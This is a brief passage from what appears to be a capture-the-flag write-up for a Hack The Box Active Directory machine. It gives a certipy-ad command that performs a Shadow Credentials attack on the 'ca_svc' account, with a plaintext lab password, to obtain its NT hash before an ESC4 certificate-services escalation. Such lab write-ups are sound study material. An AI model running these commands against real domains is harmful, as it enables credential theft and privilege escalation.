 <figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Follow the ESC4 ADCS Privilege Escalation Path, but before use Shadow Credentials attack.

{% code overflow="wrap" %}
```bash
certipy-ad shadow auto -u 'ryan@sequel.htb' -p "WqSZAF6CysDQbGb3" -account 'ca_svc' -dc-ip '10.10.11.51'
```
{% endcode %}

We will get NThash of `ca_svc` below:

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>
